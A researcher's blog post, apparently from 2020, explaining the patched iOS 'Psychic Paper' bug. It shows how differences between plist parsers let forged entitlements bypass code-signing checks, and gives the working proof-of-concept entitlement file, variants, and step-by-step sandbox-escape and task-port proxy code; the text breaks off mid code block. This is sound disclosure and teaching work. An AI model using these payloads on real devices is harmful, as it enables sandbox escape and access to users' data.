



_Siguza, 01. May 2020_

# "Psychic Paper"

These aren't the droids you're looking for.

## 0. Introduction

Yesterday Apple released iOS 13.5 beta 3 (seemingly renaming iOS 13.4.5 to 13.5 there), and that killed one of my bugs. It wasn't just any bug though, it was the first 0day I had ever found. And it was probably also the best one. Not necessarily for how much it gives you, but certainly for how much I've used it for, and also for how ridiculously simple it is. So simple, in fact, that [the PoC I tweeted out][poc] looks like an absolute joke. But it's 100% real.

I dubbed it "psychic paper" because, just like [the item by that name][lore] that Doctor Who likes to carry, it allows you get past security checks and make others believe you have a wide range of credentials that you shouldn't have.

In contrast to virtually any other bug and any other exploit I've had to do with, this one should be understandable without any background knowledge in iOS and/or exploitation. In that spirit, I'll also try and write this post in a manner that assumes no iOS- or exploitation-specific knowledge. I do expect you however to loosely know what XML, public key encryption and hashes are, and understanding C code is certainly a big advantage.

So strap in for the story of what I'll boldly claim to be the most elegant exploit for the most powerful sandbox escape on iOS yet. :P

## 1. Background

#### 1.1 Technical background

As a first step, let's look at a sample XML file:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE figment-of-my-imagination>
<container>
    <meow>value</meow>
    <whatever/>
</container>
<!-- herp -->
<idk a="b" c="d">xyz</idk>
```

The basic concept is that `<tag>` opens a tag, `</tag>` closes it, and stuff goes in between. That stuff can be either raw text or more tags. Empty tags can be self-closing like `<tag/>`, and they can have attributes like `a="b"` as well, yada yada.  
There's three things in the above file that go beyond just basic tags:

- `<?...?>` - Tags starting and ending with question marks, so-called "processing instructions", are treated specially.
- `<!DOCTYPE ...>` - Tags starting with `!DOCTYPE` are, well, "document type declarations" and are treated specially as well.
- `<!-- -->` - Tags starting with `<!--` and ending with `-->` are comments, and they plus their contents are ignored.

[The full XML specification](https://www.w3.org/TR/xml/) contains _a lot_ more, but a) that's irrelevant to us, and b) nobody should ever be forced to read that.  
Now, XML is horrible to parse for reasons this XKCD illustrates beautifully:

[![xkcd][xkcd-img]][xkcd-url]

So yeah, you can construct `<mis>matched</tags>`, `<attributes that="are never closed>`, even `<tags that are never closed`, maybe a tag like this: `<!>`, the list simply doesn't end. This makes XML a format that's excruciatingly hard to parse correctly, which will become relevant in a bit.

Now building on XML, we have "property list", or "plist" for short: yet another general-purpose format for storing serialised data. You have arrays, dictionaries with key -> value pairs, strings, numbers, etc. Plist files exist in a bunch of different forms, but the only two that you'll realistically see in an Apple ecosystem are the "bplist" binary format that are out of scope for this post, and the XML-based format. A valid XML plist can look something like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>OS Build Version</key>
    <string>19D76</string>
    <key>IOConsoleLocked</key>
    <false/>
    <!-- abc -->
    <key>IOConsoleUsers</key>
    <array>
        <dict>
            <key>kCGSSessionUserIDKey</key>
            <integer>501</integer>
            <key>kCGSessionLongUserNameKey</key>
            <string>Siguza</string>
        </dict>
    </array>
    <!-- def -->
    <key>IORegistryPlanes</key>
    <dict>
        <key>IODeviceTree</key>
        <string>IODeviceTree</string>
        <key>IOService</key>
        <string>IOService</string>
    </dict>
</dict>
</plist>
```

Plist files are used all throughout iOS and macOS for configuration files, package properties, and last but not least as part of code signatures.

So: code signatures.  
When a binary wants to run on iOS, a kernel extension called AppleMobileFileIntegrity (or "AMFI") requires it to have a valid code signature, or else it will be killed on the spot. What this code signature looks like isn't important for us, all that matters is that it is identified by a hashsum. This hash can be validated in one of two ways:

1. It can be known to the kernel ahead of time, which is called an "ad-hoc" signature. This is used for iOS system apps and daemons, and the hash is simply checked against a collection of known hashes directly in the kernel.
2. It needs to be signed with a valid code signing certificate. This is used for all 3rd party apps, and in this scenario, AMFI calls out to the userland daemon `amfid` to have it run all the necessary checks.

Now, code signing certificates come in two forms:

1. The App Store certificate. This is held only by Apple themselves and in order to get signed this way, your app needs to pass the App Store review.
2. Developer certificates. This can be the free "7-day" certificates, "regular" developer certificate, or enterprise distribution certificates.

In the latter case, the app in question will also require a "provisioning profile", a file that Xcode (or some 3rd party software) can fetch for you, and that needs to be placed in your `App.ipa` bundle at `Payload/Your.app/embedded.mobileprovision`. This file is signed by Apple themselves, and specifies the duration, the list of devices, and the developer accounts it is valid for, as well as all the restrictions that should apply to the app.

And now a quick look at app sandboxing and security boundaries:

In a standard UNIX environment, pretty much the only security boundaries you get are UID checks. Processes of one UID can't access resources of another UID, and any resource deemed "privileged" requires UID 0, i.e. "root". iOS and macOS still use that, but also introduce the concept of "entitlements". In layman's terms, entitlements are a list of properties and/or privileges that should be applied to your binary. If present, they are embedded in the code signature of your binary, in the form of a XML plist file, which might look like this:

```xml
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
```

This would mean that the binary in question "holds the `task_for_pid-allow` entitlement", which in this specific case means is allowed to use the `task_for_pid()` mach trap, which is otherwise not allowed at all (at least on iOS). Such entitlements are checked all throughout iOS and macOS and there's well upwards of a thousand different ones in existence (Jonathan Levin has built [a big catalogue of all the ones he could find][entlist], if you're curious). The important thing is just that all 3rd party apps on iOS are put in a containerised environment where they have access to as few files, services and kernel APIs as possible, and entitlements can be used to poke holes in that container, or remove it entirely.

This presents an interesting problem. With iOS system apps and daemons, Apple is the one signing them, so they wouldn't put any entitlements on there that they don't want the binaries to have. The same goes for App Store apps, where Apple is the one creating the final signature. But with developer certificates, the signature on the binary is created by the developers themselves, and Apple merely signs the provisioning profile. This means that the provisioning profile must create a list of allowed entitlements, or the iOS security model is toast right away. And indeed, if you run `strings` against a provisioning profile, you will find something like this:

```xml
<key>Entitlements</key>
<dict>
    <key>keychain-access-groups</key>
    <array>
        <string>YOUR_TEAM_ID.*</string>
    </array>
    <key>get-task-allow</key>
    <true/>
    <key>application-identifier</key>
    <string>YOUR_TEAM_ID.com.example.app</string>
    <key>com.apple.developer.team-identifier</key>
    <string>YOUR_TEAM_ID</string>
</dict>
```

Compared to the over-1000 entitlements in existence, this list is extremely short, with the only two functional entitlements being `keychain-access-groups` (related to credentials) and `get-task-allow` (allowing your app to be debugged). Not a whole lot to work with.

**UPDATE 10. May 2020:**

I've been informed that provisioning profiles are actually in a well-known format, and their contents can be nicely displayed with the following command:

```
openssl smime -verify -noverify -in embedded.mobileprovision -inform der  
```

Thanks for pointing that out, Adam. :)

#### 1.2 Historical background

Back in fall 2016 [I wrote my first kernel exploit][cl0ver], which was based on the infamous "Pegasus vulnerabilities". Those were memory corruptions in the XNU kernel in a function called `OSUnserializeBinary`, which is a subordinate of another function called `OSUnserializeXML`. These two functions are used to parse not exactly XML data, but rather plist data - they are _the_ way of parsing plist data in the kernel.  
Now given the vulnerabilities I had just written an exploit for, and the still janky-looking code those two functions consisted of, in January 2017 I began looking through them in the hopes of finding further memory corruption bugs.

At the same time, I was in the process of figuring out how to build an iOS app without Xcode. Partly because I wanted to understand what's really going on under the hood, and partly because I just hate GUIs for development, especially when you Google how to do something, and the answer is a series of 17 "click here and there"s that are no longer valid because all the GUI stuff moved somewhere else in the last update.  
So I was getting a provisioning profile via Xcode every 7 days, I'd build the binary of my app manually with `xcrun -sdk iphoneos clang`, I'd sign it myself with `codesign`, and I'd install it myself with libimobiledevice's `ideviceinstaller`.

It was this combination, as well as probably a good portion of dumb luck that made me discover the following bug, and excitedly tweet about it:


(Thanks for digging that up, Emma! :D)

## 2. The bug

In an informal sense, it's clear what it means for a binary to hold an entitlement. But how do you _formally_ specify that? What would code look like that takes as input a process handle and an entitlement name and just returned a boolean saying whether the process does or does not have that entitlement? Luckily for us, XNU has precisely such a function in [`iokit/bsddev/IOKitBSDInit.cpp`][bsdinit]:

```cpp
extern "C" boolean_t
IOTaskHasEntitlement(task_t task, const char * entitlement)
{
    OSObject * obj;
    obj = IOUserClient::copyClientEntitlement(task, entitlement);
    if (!obj) {
        return false;
    }
    obj->release();
    return obj != kOSBooleanFalse;
}
```

The lion's share of the work here is done by these two functions though, from [`iokit/Kernel/IOUserClient.cpp`][iouc]:

```cpp
OSDictionary* IOUserClient::copyClientEntitlements(task_t task)
{
#define MAX_ENTITLEMENTS_LEN    (128 * 1024)

    proc_t p = NULL;
    pid_t pid = 0;
    size_t len = 0;
    void *entitlements_blob = NULL;
    char *entitlements_data = NULL;
    OSObject *entitlements_obj = NULL;
    OSDictionary *entitlements = NULL;
    OSString *errorString = NULL;

    p = (proc_t)get_bsdtask_info(task);
    if (p == NULL) {
        goto fail;
    }
    pid = proc_pid(p);

    if (cs_entitlements_dictionary_copy(p, (void **)&entitlements) == 0) {
        if (entitlements) {
            return entitlements;
        }
    }

    if (cs_entitlements_blob_get(p, &entitlements_blob, &len) != 0) {
        goto fail;
    }

    if (len <= offsetof(CS_GenericBlob, data)) {
        goto fail;
    }

    /*
     * Per <rdar://problem/11593877>, enforce a limit on the amount of XML
     * we'll try to parse in the kernel.
     */
    len -= offsetof(CS_GenericBlob, data);
    if (len > MAX_ENTITLEMENTS_LEN) {
        IOLog("failed to parse entitlements for %s[%u]: %lu bytes of entitlements exceeds maximum of %u\n",
            proc_best_name(p), pid, len, MAX_ENTITLEMENTS_LEN);
        goto fail;
    }

    /*
     * OSUnserializeXML() expects a nul-terminated string, but that isn't
     * what is stored in the entitlements blob.  Copy the string and
     * terminate it.
     */
    entitlements_data = (char *)IOMalloc(len + 1);
    if (entitlements_data == NULL) {
        goto fail;
    }
    memcpy(entitlements_data, ((CS_GenericBlob *)entitlements_blob)->data, len);
    entitlements_data[len] = '\0';

    entitlements_obj = OSUnserializeXML(entitlements_data, len + 1, &errorString);
    if (errorString != NULL) {
        IOLog("failed to parse entitlements for %s[%u]: %s\n",
            proc_best_name(p), pid, errorString->getCStringNoCopy());
        goto fail;
    }
    if (entitlements_obj == NULL) {
        goto fail;
    }

    entitlements = OSDynamicCast(OSDictionary, entitlements_obj);
    if (entitlements == NULL) {
        goto fail;
    }
    entitlements_obj = NULL;

fail:
    if (entitlements_data != NULL) {
        IOFree(entitlements_data, len + 1);
    }
    if (entitlements_obj != NULL) {
        entitlements_obj->release();
    }
    if (errorString != NULL) {
        errorString->release();
    }
    return entitlements;
}

OSObject* IOUserClient::copyClientEntitlement(task_t task, const char * entitlement )
{
    OSDictionary *entitlements;
    OSObject *value;

    entitlements = copyClientEntitlements(task);
    if (entitlements == NULL) {
        return NULL;
    }

    /* Fetch the entitlement value from the dictionary. */
    value = entitlements->getObject(entitlement);
    if (value != NULL) {
        value->retain();
    }

    entitlements->release();
    return value;
}
```

So we have a reference implementation for entitlement checks, and it's backed by `OSUnserializeXML`. Great! ...or is it?

A very interesting thing about this bug is that I couldn't point you at any particular piece of code and say "there's my bug". The reason for that is that, of course, iOS doesn't have just one, or two, or even three plist parsers, it has at least four! These are:

- `OSUnserializeXML` in the kernel
- `IOCFUnserialize` in [IOKitUser][iokituser]
- `CFPropertyListCreateWithData` in [CoreFoundation][cf]
- `xpc_create_from_plist` in libxpc (closed-source)

So the three interesting questions that arise from this are:

1. Which parsers are used to parse entitlements?
2. Which parser does `amfid` use?
3. And do all parsers return the same data?

The answer to 1) is "all of them", and to 2) `CFPropertyListCreateWithData`. And as a few folks on Twitter already figured out after my tweet, the answer to 3) is obviously "lolnope". Because it's very hard to parse XML correctly, _valid_ XML makes all parsers return the same data, but slightly _invalid_ XML makes them return just slightly _not_ the same data. :D  
In other words, any parser difference can be exploited to make different parsers see different things. This is the very heart of this bug, making it not just a logic flaw, but a system-spanning _design flaw_.

Before we move on to exploiting this, I would like to note that in all my tests, `OSUnserializeXML` and `IOCFUnserialize` always returned the same data, so for the rest of this post I will consider them as equivalent. For brevity, I will also be dubbing `OSUnserializeXML`/`IOCFUnserialize` "IOKit", `CFPropertyListCreateWithData` "CF", and `xpc_create_from_plist` "XPC".

## 3. The exploit

Let's start with the variant of the PoC I tweeted out, which is perhaps the most elegant way of exploiting this bug: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <!-- these aren't the droids you're looking for -->
    <!---><!-->
    <key>platform-application</key>
    <true/>
    <key>com.apple.private.security.no-container</key>
    <true/>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```

The interesting tokens here are `<!--->` and `<!-->`, which, as per my understanding of the XML specification, are not valid XML tokens. Nonetheless, IOKit, CF and XPC all accept the above XML/plist... just not exactly in the same way.

I wrote a little tool called [`plparse`][src] that I have so far been reluctant to open-source because it emphasises the fact that there exist multiple plist parsers in iOS, and that they certainly don't all work the same. It takes an input file and any combination of `-c`, `-i` and `-x` args to parse the file with the CF, IOKit and XPC engines respectively. Running on the above file, we get:

```
% plparse -cix ent.plist 
{
}
{
    task_for_pid-allow: true,
    platform-application: true,
    com.apple.private.security.no-container: true,
}
{
    com.apple.private.security.no-container: true,
    platform-application: true,
    task_for_pid-allow: true,
}
```

The output is a lazy JSON-like format, but you get the gist of it. At the top is CF, followed by IOKit, and finally XPC. This means that when we slap the above entitlements file on our app (plus app identifier that we need and such) and `amfid` uses CF to check whether we have any entitlements that the provisioning profile doesn't allow, it doesn't see any. But then when the kernel or some daemon wants to check whether we're allowed to do Fun Stuff™, they see we have all the permissions for it! :D

So how does this specific example work?  
This is the comment tag handling code of CF (the relevant one anyway, there are multiple):

```c
case '!':
    // Could be a comment
    if (pInfo->curr+2 >= pInfo->end) {
        pInfo->error = __CFPropertyListCreateError(kCFPropertyListReadCorruptError, CFSTR("Encountered unexpected EOF"));
        return false;
    }
    if (*(pInfo->curr+1) == '-' && *(pInfo->curr+2) == '-') {
        pInfo->curr += 2;
        skipXMLComment(pInfo);
    } else {
        pInfo->error = __CFPropertyListCreateError(kCFPropertyListReadCorruptError, CFSTR("Encountered unexpected EOF"));
        return false;
    }
    break;
    
// ...
static void skipXMLComment(_CFXMLPlistParseInfo *pInfo) {
    const char *p = pInfo->curr;
    const char *end = pInfo->end - 3; // Need at least 3 characters to compare against
    while (p < end) {
        if (*p == '-' && *(p+1) == '-' && *(p+2) == '>') {
            pInfo->curr = p+3;
            return;
        }
        p ++; 
    }
    pInfo->error = __CFPropertyListCreateError(kCFPropertyListReadCorruptError, CFSTR("Unterminated comment started on line %d"), lineNumber(pInfo));
}
```

And this is the comment tag handling code of IOKit:

```cpp
if (c == '!') {
    c = nextChar();
    bool isComment = (c == '-') && ((c = nextChar()) != 0) && (c == '-');
    if (!isComment && !isAlpha(c)) {
        return TAG_BAD;                      // <!1, <!-A, <!eos
    }
    while (c && (c = nextChar()) != 0) {
        if (c == '\n') {
            state->lineNumber++;
        }
        if (isComment) {
            if (c != '-') {
                continue;
            }
            c = nextChar();
            if (c != '-') {
                continue;
            }
            c = nextChar();
        }
        if (c == '>') {
            (void)nextChar();
            return TAG_IGNORE;
        }
        if (isComment) {
            break;
        }
    }
    return TAG_BAD;
}
```

As can be seen, IOKit checks for the `!--` chars, and then correctly advances the pointer by three chars before seeing `->`, which doesn't end the comment. CF on the other hand only advances the pointer by _two_ chars, so it parses the second `-` twice, thus seeing both `<!--` and `-->`. This means that while IOKit considers `<!--->` as just the start of a comment, CF considers it as both start and end. After that, we feed both parsers the `<!-->` token, which is now too short to be interpreted as a full comment by either of them. However, the difference in states (in a comment vs. not in a comment) causes a very interesting behaviour: if we're currently inside a comment, both parsers see the `-->` ending a comment, otherwise they both just see the `<!--` starting one. Overall, this means:

```xml
<!--->
CF sees these bits
<!-->
IOKit sees these bits
<!-- -->
```

After discovering this, I didn't bother reversing XPC, I simply fed it some test data and observed the results. In this case, it turned out to see _both_ blocks, which worked _perfectly_ for my case. I could sneak entitlements past `amfid` using CF, but have them show up when parsed by both IOKit and XPC!

There's a couple more variants I tested, with varying results:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict hurr=">
</dict>
</plist>
">
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <???><!-- ?>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE [%>
<plist version="1.0">
<dict>
    <key>task_for_pid-allow</key>
    <true/>
</dict>
</plist>
;]>
<plist version="1.0">
<dict>
</dict>
</plist>
```

These are all less elegant and less rewarding than the first variant, and I'll leave it as an exercise to the reader to figure out what parser difference causes those, or how the different parsers react to them.

One thing to note here though is that, depending on what you use to install IPA files on your iDevice, getting these entitlements to survive that process can be tricky. That is because the entitlements on a provisioned app also contain a team- and app identifier, which at least Cydia Impactor generates randomly every time you sign, and thus has to parse, modify and re-generate the entitlements blob. I don't know about any of its alternatives, but I've been told Xcode works fine with such entitlements, and the manual variant of `codesign`+`ideviceinstaller` certainly does as well.

## 4. Escaping the sandbox

From this point forward, it's simply a matter of picking entitlements. For a start, we can give ourselves the three entitlements in my initial PoC:

- `com.apple.private.security.no-container` - This prevents the sandbox from applying any profile to our process whatsoever, meaning we can now read from and write to any location the `mobile` user has access to, execute a ton of syscalls, and talk to many hundreds of drivers and userland services that we previously weren't allowed to. And as far as user data goes, security no longer exists.
- `task_for_pid-allow` - Just in case the file system wasn't enough, this allows us to look up the task port of any process running as `mobile`, which we can then use to read and write process memory, or directly get or set thread register states.
- `platform-application` - ~Normally we would be marked as a non-Apple binary and not be allowed to perform the above operations on task ports of Apple binaries, but this entitlement marks us as a genuine, mint-condition Cupertino Cookie. :P~ **UPDATE 10. May 2020: This is no longer true! It used to work like this back when I discovered the bug, but iOS 11 changed that already, and I never bothered to check again, mea culpa. You can work around it though and get the same privileges, it's just more complicated - see below for explanation or [here for code][proxy].**

There are cases though where the above entitlement magic isn't enough, specifically when you want to talk to a daemon that itself uses CF to parse entitlements. But with a bit of trickery, we can gain _actual, legit_ entitlements that will be seen by _all_ parsers.

---

**// UPDATE 10. May 2020**

A previous version of this blog post included the following snippet of code as a method of gaining "legit" entitlements. It turns out this no longer works as of iOS 11, and I had totally missed that. Nevertheless, let's start with it to see what it would have given us, why it no longer works, and how we can work around that.

Before we can do that though, we do need to look at mach ports and mach messages. There's just no way around it.  
If you're familiar with file descriptors, pipes and unix sockets, imagine it like this: a mach port is like a file descriptor for a fancy pipe.  
In userland, you get a mere `uint32` as handle, which only has meaning inside your process. What you see as `0x103` is a different thing than what the next process sees as `0x103`. Using the `mach_msg` syscall, you can send and receive messages to and from that port - if you have the required port rights, that is. For each mach port in your process, you can hold up to three different rights:

- Receive right. This means you "own" the port and are the only one capable of receiving messages on it. Only one such right can exist for any given port.  
- Send right. This means you can send messages to the port. An unlimited number of such rights can exist for any given port.
- Send-once right. Same as a send right, except is disintegrates after a single use.

Now, mach messages would essentially just be big binary buffers you send to the receiver, except they can also be used to transfer regions of memory as well as mach port rights. If you hold send rights to two mach ports A and B, you can send a message to B containing a send right for A, and once the receiver receives the message on port B, the kernel will clone your send right and insert the copy into that process'es namespace. With receive and send-once rights you can't create clones, but you can move them. You can also create new send and send-once rights if you hold the receive right. And this isn't just some nice feature, this is something _virtually every mach message_ uses

Apart from being handles in processes, mach port rights can also "registered" on a few kernel interfaces. With most of those, they're just kinda "stashed away" and ready to be looked up, and one thing that has such stashes are processes. They have three sets, in particular:

- "Registered" ports. No inherent function, just an array of 3 mach ports you can register and look up.
- "Exception" ports. These are used for low-level fault handling, e.g. on accessing unmapped memory. The default handler will convert the issue to POSIX signals where applicable, but that behaviour can be overridden, and issues triaged out-of-process.
- "Special" ports. Each port in this set has a well-known function and is identified by a constant ID. Some of these are created and handled by userland processes, for example the bootstrap port, used to talk to launchd, others are created and handled directly by the kernel, such as the host and the task ports.

Task ports are of particular interest to us. Each process has a separate task port whose messages are handled by the kernel, and which allows anyone with a send righ to read and write process memory, get and set thread register state, and a series of other operations.

With that said, here's the code that no longer works:

```c
task_t haxx(const char *path_of_executable)
{
    task_t task;
    pid_t pid;
    posix_spawnattr_t att;
    posix_spawnattr_init(&att);
    posix_spawnattr_setflags(&att, POSIX_SPAWN_START_SUSPENDED);
    posix_spawn(&pid, path_of_executable, NULL, &att, (const char*[]){ path_of_executable, NULL }, (const char*[]){ NULL });
    posix_spawnattr_destroy(&att);
    task_for_pid(mach_task_self(), pid, &task);
    return task;
}
```

What the above code attempts to do is spawn a process in suspended state (as if you had immediately `SIGSTOP`'ed it), and then it calls `task_for_pid` on the returned pid. As the "mobile" user, `task_for_pid` is our only way of actively obtaining task ports for other processes, and it requires the `task_for_pid-allow` entitlement we so sneakily bestowed upon ourselves. Also, it naturally only allows us to get task ports for processes that also run as mobile, so no LPE to root here. But combining that with `posix_spawn` still has an obvious benefit: you can spawn a validly-entitled binary and then use that API to alter its control flow and make it do your bidding.

So why does this no longer work? Because Apple is petty.  
In iOS 11 they started marking processes as "platform" (Apple) and "non-platform" (non-Apple) processes. And non-Apple processes can't use task ports of Apple processes. They can _obtain_ them, but passing them back to the API will behave the same way as `TASK_NULL`.

Obviously that's not gonna stop us though. We have way too much power at this point! :D  
Specifically, we have the power to spawn processes. And it's pretty well known that child processes inherit _a lot_ from their parents. And some of these things just happen to be registered ports, exception ports, and a few of the special ports.

This gives us _a lot_ of control over them, especially the exception ports are _wild_. If any sort of hardware-level exception occurs, we can have the kernel send us the entire register state of the faulting thread, and then send back a new register state to be applied! This gives us full control over the instruction pointer, which in turn we could use to call `memset` and co to gain read & write primitives. The problem is just, we need something that would normally trigger a crash.

Now we could go look for bugs, I'm sure there's quite a bunch of NULL derefs to be found in Apple binaries, but that is a very unstable approach, and limits us to binaries we find crashable bugs in. A much simpler and more proper solution is to look for code that crashes _on purpose_. There isn't a lot of such code, but libxpc does fall under it. Having been written in a much stricter fashion than its predecessors, it attempts to detect API misuse, and crash the process. To do so, it will run a `brk 1` instruction, which is something we can intercept and handle if we control the exception ports. So now it's down to tripping up the API misuse detection. For that, all we need is a daemon that implements a launchd-registered service. Launchd will create a mach port for that service, and once the daemon starts up, it will check in with launchd and take over the receive right for that port. To do so, it uses one of the special ports, the "bootstrap" port. Since we are in full control of that, we can impersonate launchd to any daemon we spawn, and send replies as we see fit. Specifically can send error codes, and if the error code we send is `0x9c` (or 156), libxpc will treat that as a fatal error and call the API misuse routine, thus crashing the process. Any daemon should be good enough for this, but I opted for `/usr/libexec/amfid` specifically. :P

So we now have both the ability and the opportunity to set thread register states... what now? At this point, I could've dropped my code and just told people "you can controll all registers, you'll figure it out". But that's not quite good enough. We came here because Apple marked us as a non-Apple binary, and we won't leave until we can do everything an Apple binary could!

To that end, we're gonna set up a triangle mach message proxy like so:



The detailed and technical plan for that is as follows:

1.  Pick a binary that's gonna do work for us. In my example: `/usr/libexec/amfid`.
2.  Use `mach_port_allocate` and `mach_port_insert_right` to create 3 mach ports: an exception port, a bootstrap port, and a proxy port.
3.  Use `posix_spawnattr_setexceptionports_np` and `posix_spawnattr_setspecialport_np` to set the exception and special ports of the binary we're gonna spawn.
4.  Call `mach_ports_register` on ourselves to install our task port plus the proxy port as registered ports. On iOS 13 you could also use this function instead:
    ```c
    extern int posix_spawnattr_set_registered_ports_np(posix_spawnattr_t *__restrict attr, mach_port_t portarray[], uint32_t count);
    ```
    But you'll have to declare it yourself, and it isn't available on iOS 12, so I chose to avoid it.
5.  Call `posix_spawn` and spawn the actual process. No `POSIX_SPAWN_START_SUSPENDED` here, since we want it to run and crash.
6.  Use `xpc_pipe_receive` and `xpc_pipe_routine_reply` to send an error code of `0x9c` and have the process fault.
7.  Start handling exception messages.
    1. Always call whole functions and set `lr` to an invalid value so that the exception handler is hit again once the function returns.
    2. Use `dlsym` to look up addresses in the shared cache, which will be the same in the remote process.
    3. To read memory, use `platform_thread_get_unique_id`:
      ```
      ;-- _platform_thread_get_unique_id:
      ldr x0, [x0, 8]
      ret
      ```
    4. To write memory, use `xpc_service_instance_set_binpref` and `xpc_service_instance_set_finalizer_f`:
      ```
      ;-- _xpc_service_instance_set_binpref:
      str w1, [x0, 0x1c]
      ret
      
      ;-- _xpc_service_instance_set_finalizer_f:
      str x1, [x0, 0x88]
      ret
      ```
8.  Proxy setup phase:
    1. `malloc` a working buffer.
    2. Make the other process call `mach_ports_lookup` on itself to get our task port and a send right to the proxy port.
    3. Since the other process can use our task port but not vice versa, make it call `mach_port_extract_right` with `MACH_MSG_TYPE_MOVE_RECEIVE` on us to move the receive right for the proxy port to its namespace.
9.  Proxy run phase:
    1. Send a message to the proxy port.
    2. Make the other process receive it.
    3. Make it extract the port from our namespace that we actually want to send the message to.
    4. Replace the destination port in the remote mach message.
    5. Make it re-send the message it received.
    6. Receive the reply on our end.
    7. Repeat.

There's slightly more to it in practice, e.g. you have to fix up the remote message because target and reply port get swapped when receiving, arm64e needs some manual fiddling with thread register values to satisfy PAC, and so on, but it's all very doable.

I'm not gonna past the entire implementation in this post, [check it out here][proxy] if you like.  
What I will paste here is only the demo code that calls an API that would normally require `TF_PLATFORM`, to demonstrate how beautifully simple it is to use:

```objc
void demo(void)
{
    // This is just setup
    volatile mach_port_t *realport;
    mach_port_t proxy = haxx("/usr/libexec/amfid", &realport);
    kern_return_t ret;
    task_t task;
    pid_t pid;
    posix_spawnattr_t att;
    posix_spawnattr_init(&att);
    posix_spawnattr_setflags(&att, POSIX_SPAWN_START_SUSPENDED);
    posix_spawn(&pid, "/usr/libexec/backboardd", NULL, &att, (char* const*)(const char*[]){ "/usr/libexec/backboardd", NULL }, (char* const*)(const char*[]){ NULL });
    posix_spawnattr_destroy(&att);
    task_for_pid(mach_task_self(), pid, &task);
    NSLog(@"task: 0x%x", task);

    // This is the task port we normally couldn't use.
#if 0
    // And now instead of this:
